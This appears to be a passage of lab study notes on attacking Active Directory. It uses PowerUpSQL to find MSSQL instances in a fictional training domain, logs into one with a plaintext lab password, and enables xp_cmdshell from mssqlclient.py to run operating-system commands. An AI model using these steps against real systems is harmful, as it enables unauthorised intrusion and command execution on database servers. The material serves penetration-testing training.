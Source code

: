 #### **Enumerating MSSQL Instances with PowerUpSQL**

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

```powershell
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

From linux using `mssqlclient.py`

* `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`

then we can run os command using

* `SQL> enable_xp_cmdshell`
* `SQL>` `xp_cmdshell whoami /priv`

## **Kerberos "Double Hop" Problem**

![Untitled](<../.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 13.png>)

